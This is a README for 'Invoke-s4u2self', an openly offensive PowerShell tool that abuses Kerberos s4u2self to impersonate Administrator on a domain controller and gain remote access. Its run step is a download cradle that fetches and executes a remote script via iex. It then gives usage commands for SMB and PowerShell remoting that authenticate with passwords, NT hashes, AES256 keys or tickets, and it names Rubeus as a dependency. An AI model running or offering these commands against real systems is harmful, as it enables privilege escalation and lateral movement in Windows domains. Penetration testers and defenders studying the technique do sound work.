 # Invoke-s4u2self
A tool that automates s4u2self abuse to gain access to remote hosts

Run as follows:

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-s4u2self/main/Invoke-s4u2self.ps1')
```

### SMBRemoting

```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -SMBRemoting -Password MachinePassword
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -SMBRemoting -NTHash 22a151bd3056ac739718f73dfe5f9614
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -SMBRemoting -AES256 d01c9d4441caf093ce018c432c48d50efc1c979a984d769cc0db76d6e5c05ab8
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -SMBRemoting -Ticket doIFgjCCBX6gA......BsNZmVycmFyaS5sb2NhbA==
```
```
Invoke-s4u2self -ComputerName DC01 -Domain ferrari.local -DomainController DC01.ferrari.local -Impersonate Administrator -SMBRemoting -NTHash 22a151bd3056ac739718f73dfe5f9614
```

### PSRemoting

```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -PSRemoting -Password MachinePassword
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -PSRemoting -NTHash 22a151bd3056ac739718f73dfe5f9614
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -PSRemoting -AES256 d01c9d4441caf093ce018c432c48d50efc1c979a984d769cc0db76d6e5c05ab8
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -PSRemoting -Ticket doIFgjCCBX6gA......BsNZmVycmFyaS5sb2NhbA==
```
```
Invoke-s4u2self -ComputerName DC01 -Domain ferrari.local -DomainController DC01.ferrari.local -Impersonate Administrator -PSRemoting -NTHash 22a151bd3056ac739718f73dfe5f9614
```

![image](https://github.com/Leo4j/Invoke-s4u2self/assets/61951374/b9075667-bee3-40b6-bf6e-e4d227ac6ac9)

![image](https://github.com/Leo4j/Invoke-s4u2self/assets/61951374/ab213a41-dcbf-4b48-a67c-e0ebe478be12)


### Dependencies:
Invoke-SMBRemoting: https://github.com/Leo4j/Invoke-SMBRemoting

Rubeus: https://github.com/GhostPack/Rubeus
